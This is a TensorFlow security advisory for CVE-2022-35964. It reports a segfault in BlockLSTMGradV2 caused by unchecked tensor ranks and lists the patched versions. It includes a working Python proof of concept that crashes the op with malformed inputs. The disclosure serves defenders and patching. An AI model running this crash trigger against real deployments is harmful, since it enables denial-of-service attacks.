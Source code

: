 ## TFSA-2022-096: Segfault in `BlockLSTMGradV2`

### CVE Number
CVE-2022-35964

### Impact
The implementation of `BlockLSTMGradV2` does not fully validate its inputs.
 - `wci`, `wcf`, `wco`, `b` must be rank 1
 - `w`, cs_prev`, `h_prev` must be rank 2
 - `x` must be rank 3
This results in a a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

use_peephole = False
seq_len_max = tf.constant(1, shape=[], dtype=tf.int64)
x = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs_prev = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h_prev = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
w = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wci = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wcf = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wco = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
b = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
i = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
f = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
o = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
ci = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
co = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs_grad = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h_grad = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
tf.raw_ops.BlockLSTMGradV2(seq_len_max=seq_len_max, x=x, cs_prev=cs_prev, h_prev=h_prev, w=w, wci=wci, wcf=wcf, wco=wco, b=b, i=i, cs=cs, f=f, o=o, ci=ci, co=co, h=h, cs_grad=cs_grad, h_grad=h_grad, use_peephole=use_peephole)
```

### Patches
We have patched the issue in GitHub commit [2a458fc4866505be27c62f81474ecb2b870498fa](https://github.com/tensorflow/tensorflow/commit/2a458fc4866505be27c62f81474ecb2b870498fa).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
